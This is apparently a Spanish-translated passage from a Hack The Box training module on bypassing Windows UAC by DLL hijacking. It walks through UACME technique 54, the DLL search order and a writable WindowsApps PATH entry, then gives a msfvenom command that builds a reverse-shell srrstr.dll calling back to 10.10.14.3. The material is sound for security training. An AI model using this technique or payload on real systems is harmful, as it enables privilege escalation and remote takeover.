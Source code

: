 Esto devuelve la versión de compilación 14393, que usa[este](https://en.wikipedia.org/wiki/Windows_10_version_history)Página Referencia cruzada a la versión de Windows`1607`.

![Table of Windows versions with details: Version 1507 to 2004, codenames Threshold 1 to 20H1, builds 10240 to 19041, marketing names from N/A to TBA, release dates from July 29, 2015, to first half of 2020.](https://academy.hackthebox.com/storage/modules/67/build.png)

El[Uacme](https://github.com/hfiref0x/UACME)Project mantiene una lista de derivaciones de UAC, incluida la información sobre el número de compilación de Windows afectado, la técnica utilizada y si Microsoft ha emitido una actualización de seguridad para solucionarla. Usemos la técnica número 54, que se dice que funciona desde Windows 10 Build 14393. Esta técnica se dirige a la versión de 32 bits del binario automático de elevación`SystemPropertiesAdvanced.exe`. Hay muchos binarios de confianza que Windows permitirá que se elvible automáticamente sin la necesidad de un mensaje de consentimiento de la UAC.

De acuerdo a[este](https://egre55.github.io/system-properties-uac-bypass)publicación de blog, la versión de 32 bits de`SystemPropertiesAdvanced.exe`intenta cargar el DLL srrstr.dll inexistente, que es utilizado por la funcionalidad de restauración del sistema.

Al intentar localizar una DLL, Windows utilizará la siguiente orden de búsqueda.

1. El directorio desde el cual se cargó la aplicación.
2. El directorio del sistema`C:\Windows\System32`para sistemas de 64 bits.
3. El directorio del sistema de 16 bits`C:\Windows\System`(No es compatible con sistemas de 64 bits)
4. El directorio de Windows.
5. Cualquier directorios que se enumere en la variable de entorno de ruta.

#### Revisión de la variable de ruta

Examinemos la variable de ruta usando el comando`cmd /c echo %PATH%`. Esto revela las carpetas predeterminadas a continuación. El`WindowsApps`La carpeta está dentro del perfil del usuario y el usuario.

  Control de la cuenta de usuario

```powershell-session
PS C:\htb> cmd /c echo %PATH%

C:\Windows\system32;
C:\Windows;
C:\Windows\System32\Wbem;
C:\Windows\System32\WindowsPowerShell\v1.0\;
C:\Users\sarah\AppData\Local\Microsoft\WindowsApps;
```

Podemos potencialmente pasar por alto la UAC en esto utilizando el secuestro de DLL colocando un malicioso`srrstr.dll`Dll a`WindowsApps`carpeta, que se cargará en un contexto elevado.

#### Generando srrstr.dll malicioso dll

Primero, generemos una DLL para ejecutar un shell inverso.

  Control de la cuenta de usuario

```shell-session
xnoxos@htb[/htb]$ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.3 LPORT=8443 -f dll > srrstr.dll

[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of dll file: 5120 bytes
```
